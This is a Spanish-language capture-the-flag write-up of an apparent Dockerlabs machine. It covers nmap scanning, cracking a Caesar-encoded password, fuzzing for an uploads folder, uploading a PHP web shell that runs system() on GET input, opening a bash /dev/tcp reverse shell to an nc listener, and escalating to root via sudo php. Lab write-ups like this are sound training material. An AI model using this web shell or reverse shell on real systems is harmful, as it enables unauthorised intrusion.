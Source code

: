 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](../Imágenes/Pasted%20image%2020240903165012.png)
Por lo que parece tiene tanto http en el puerto 80 como https en el 443. Hay un fichero llamado backup.txt, que voy a ojear: 
![](../Imágenes/Pasted%20image%2020240903165118.png)
Da la contraseña para el usuario `mateo`, que está cifrada con Caesar (que consiste en sumar el valor de una letra a n y luego hacer módulo del mismo). 

Usaré un script similar al que creé para resolver el reto [credstuff](../../picoCTF/Cryptography/Medium/credstuff/credstuff.md) de picoCTF:

```python
import string
letras_minusculas = list(string.ascii_lowercase)

entrada = "hdvbfuadcb"

n_letras = len(letras_minusculas)

for i in range(n_letras):
    salida = ""
    for caracter in entrada:
        salida += letras_minusculas[(letras_minusculas.index(caracter)+i)%n_letras]
    print(salida)
```

De entre todas las salidas la más legible es "easycrxazy", así que probaré con esa primero (cuando sepa donde usarla, claro).

Cuando accedo por https veo que es un "blog" al que los usuarios pueden subir archivos. De momento, hay un "post1.txt" subido, así que pruebo a intentar subir archivos. Pruebo a subir otros "txts" y funciona: 

![](../Imágenes/Pasted%20image%2020240903170512.png)

Usaré fuzzing para encontrar el path a los archivos, y ver si podré hacer un local file inclusion:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u https://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

Hay un directorio uploads, en el que se encuentran los archivos:

![](../Imágenes/Pasted%20image%2020240903170750.png)
![](../Imágenes/Pasted%20image%2020240903170818.png)

Intentaré subir una command line de php como la usado en la máquina [Dockerlabs](./Dockerlabs):
```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
Simplemente me descargo el código del repositorio y lo meto en el archivo "shell.php". Por lo que parece la subida de archivos no está sanitizada, ya que me permite subirlo directamente: 

![](../Imágenes/Pasted%20image%2020240903171242.png)

Desde la misma me haré una reverse shell a mi máquina:
```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```


![](../Imágenes/Pasted%20image%2020240903172228.png)

Tras probar con todas las contraseñas, intento a quitar la x, que me resultaba rara:

![](../Imágenes/Pasted%20image%2020240903172340.png)

Veo que puedo usar php como superusuario, así que compruebo https://gtfobins.github.io/gtfobins/php/#sudo, de forma exitosa:

![](../Imágenes/Pasted%20image%2020240903172435.png)
